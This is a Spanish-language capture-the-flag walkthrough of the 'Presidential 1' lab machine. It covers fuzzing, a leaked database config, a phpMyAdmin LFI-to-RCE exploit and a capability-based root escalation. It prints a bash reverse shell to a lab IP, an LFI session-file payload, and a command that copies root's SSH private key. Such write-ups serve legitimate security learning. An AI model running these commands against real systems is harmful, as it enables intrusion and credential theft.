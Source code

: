 # Presidential 1

Tags: [[_webFuzzing]],[[_infoLeakage]],[[_lfi]],[[_webExploitation]],[[_cracking]],[[_capabilities]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible CentOS.

Puertos abiertos.

80 - HTTP. Interpreta PHP.

2082 -  OPEN SSH Versión 7.4.

## Investigación (Intrusión)
(Reconocimiento/Enumeración).

80.
Empezaremos a enumerar la web hasta encontrar usuarios que puedan estar configurados a nivel de sistema.

whatweb. Nos da correos, y un posible dominio "votenow.local"

Desde la web.
Es sobre elecciones presidenciales.

Wappalyzer reporta que usa librerías:
AOS.
Isotope.
jQuery.

Leguaje Programación:
PHP

Podemos ver posibles usuarios:
kelly bowen
hugh morgan

Contemplemos el dominio para ver si cambia en algo.
Pero parece ser lo mismo.
RECORDATORIO. Fuzzear subdominios.

Fuezzeemos URIs.
/assets :    directory listing.
Curioso, hay imágenes que deben estar en algún lado puestas.

Fuzzear SubDominios.
"datasafe" -> datasafe.votenow.local
whatweb.
Parece ser un panel de autenticación, justo lo que veíamos en /assets, eso tenía pinta.

Es el phpMyAdmin de MySQL.

Fuezzeemos. Por extensiones PHP también.
/README :    phpMyAdmin 4.8.1
/ChangeLog :    son las vulnerabilidades que tenían y mejoras.
/icons/ :    imágenes para usar.
/setup/ :    es el setup de phpMyAdmin
/sql.php/  :    se queda en blanco. Pero el código fuente es el mismo.
/url.php/ :    es interesante, porque lo habíamos visto, hace como una redirección.

Analicemos este /setup/
No se pude hacer mucho.


Parece que por aquí no va la cosa, así que volvamos al votenow.local porque algo debemos estar obviando.

Fuzzeemos mejor.
Por extensiones: php, js, txt, bak, git, php.bak
Encontramos
/config.php.bak :    en el código fuente se ven cosas turbias.

DataBase:
db: votebox
dbPass: casoj3FFASPsbyoRP
dbHost: localhost
dbName: votebox

Mmm, podría ser lo de phpMyAdmin. Efectivamente, pa deentro.

En la base de datos está un usuario admin con una contraseña cifrada. Puedo intentar crackearla o romperla.

Parece que es Brcypt.

Se la voy a cambiar por otra Bcrypt, pero con "password123"

Puedo entrar ahora como admin. Aunque no sé si sea necesario.

Como es version 8.4.1 es propenso a LFI y a un RCE  (Searchsploit).
LFI.
Usuario admin a nivel de sistema.

Si yo pruebo por ssh por 2082, no me permite poner contraseña, debería usar un fichero de identidad.


RCE.
Lo que hace el exploit es aprovechar el LFI para derivarlo a un RCE.

El exploit 
php/webapps/50457.py :    tiene una falla, debe ser /var/lib/php/session/, "session" en lugar de "sessions". Así sí ejecuta comandos de forma remota.
La forma de ejecutarlo sería
<span style="color:#88c425">python3 50457.py datasafe.votenow.local 80 /index.php votebox casoj3FFASPsbyoRP "bash -i >& /dev/tcp/192.168.0.13/443 0>&1"</span>


<span style="color:#bef202">De forma manual.</span>
Lo que podemos hacer es apuntar a 
<span style="color:#ecacb6">/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{mi identificador de sesión}</span>

Este es el identificador de sesión, SessionID.
![[Pasted image 20240713193226.png]]

Y como la web trabaja con PHP, debería de interpretarlo.

Me pongo en escucha por el 443.

En el MySQL
Si yo aplico esta sentencia está claro que no lo va a interpretar.
![[Pasted image 20240713193812.png]]

Pero con el LFI hacemos que apunte a la sesión.
Ya que en ese lugar se está guardando todo, entonces lo va a interpretar.


De esta manera o con el script, pa deeentro.


2082.
Probemos si se pueden enumerar usuarios, puesto que es versión 7.4
No se pueden enumerar usuarios. Así que esperemos a tener credenciales válidas.


## Escalada

Enumerar todo el sistema.
Efectivamente, CentOS.

Recordando, teníamos un hash, podemos intentar crackearlo para ver si nos resulta la contraseña de admin:Stella
Ahí la rompe.
![[Pasted image 20240714043650 1.png]]

Hacemos migración.
<span style="color:#bef202">Elevar a root.</span>

Ver todo.
Hay un notex.txt
Dice que utilicemos nuevos comandos para backup y comprimir archivos sensibles.

Hay uno que es 
<span style="color:#ecacb6">/usr/bin/tarS</span> 
Con esta capabilitie
<span style="color:#ecacb6">cap_dac_read_search+ep</span> 
La cual permite leer otros archivos.

Pensando en una id_rsa en el .ssh de root, podemo intentar leerlo.
<span style="color:#88c425">/usr/bin/tarS -czf /tmp/rsa.tar.gz /root/.ssh/id_rsa</span>
Descomprimimos
<span style="color:#88c425">gunzip rsa.tar.gz</span>
Y lo leemos.

Eso me lo guardo como <span style="color:#ecacb6">id_rsa</span> o el nombre que sea, en mi equipo. 
Le damos permisos 600.
Recordemos que el SSH está en 2082
Hacemos
<span style="color:#88c425">ssh 192.168.0.12 -i id_rsa -p 2082</span>

Y pa deeeeentro.
FIN.
